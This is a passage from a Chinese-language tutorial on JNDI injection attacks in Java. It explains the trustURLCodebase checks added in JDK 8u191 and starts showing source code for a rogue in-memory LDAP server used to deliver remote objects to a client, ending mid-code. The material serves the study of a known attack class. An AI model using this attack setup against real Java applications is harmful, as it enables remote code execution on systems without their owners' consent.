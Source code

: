 我们来看下这个 trustURLCodebase 的值究竟是怎么获取的  

```
private static final String TRUST_URL_CODEBASE_PROPERTY =
            "com.sun.jndi.ldap.object.trustURLCodebase";
    private static final String trustURLCodebase =
            AccessController.doPrivileged(
                new PrivilegedAction<String>() {
                    public String run() {
                        try {
                        return System.getProperty(TRUST_URL_CODEBASE_PROPERTY,
                            "false");
                        } catch (SecurityException e) {
                        return "false";
                        }
                    }
                }
            );
```

这次获取的是一个名称为 TRUST_URL_CODEBASE_PROPERTY 的属性值，也就是说我们需要将该值也设置为 true 才行

```
System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase","true");
//至于这个com.sun.jndi.ldap.object.trustURLCodebase这个属性会在后续的JNDI Reference的LDAP攻击响亮中讲到。
 System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase","true");
```

也就是说 在 jdk 8u191 及其以后的版本中如果想让 JNDI Reference rmi 攻击向量成功 RCE 的话 目标服务器就必须在 lookup 之前加上以上两行代码

由此可见在 jdk 8u191 及其以后的版本中通过这种方式来进行 RCE 攻击几乎不可能实现了。

**0x06  服务端攻击客户端 3**
====================

在上一小节中通过使用 JNDI 的 Reference rmi 攻击向量进行 RCE 攻击，根据网络上大佬们提供的思路，除了使用 rmi 攻击向量以外还可以使用 JNDI Ldap 向量来进行攻击

话不多说直接上源码，首先先看下 Ldap 服务端源码

```
public class LDAPSeriServer {

    private static final String LDAP_BASE = "dc=example,dc=com";


    public static void main(String[] args) throws IOException {
        int port = 1389;

        try {
          //这里的代码只是在内存中模拟了一个ldap服务，本机上并不存在一个ldap数据库所以程序结束后这些就都消失了
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen", //$NON-NLS-1$
                    InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.setSchema(null);
            config.setEnforceAttributeSyntaxCompliance(false);
            config.setEnforceSingleStructuralObjectClass(false);
          //向ldap服务中添加数据条目，具体ldap条目相关细节可以去学习ldap相关知识，这里就不做详细讲解了
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            ds.add("dn: " + "dc=example,dc=com", "objectClass: top", "objectclass: domain");
            ds.add("dn: " + "ou=employees,dc=example,dc=com", "objectClass: organizationalUnit", "objectClass: top");
            ds.add("dn: " + "uid=longofo,ou=employees,dc=example,dc=com", "objectClass: ExportObject");
```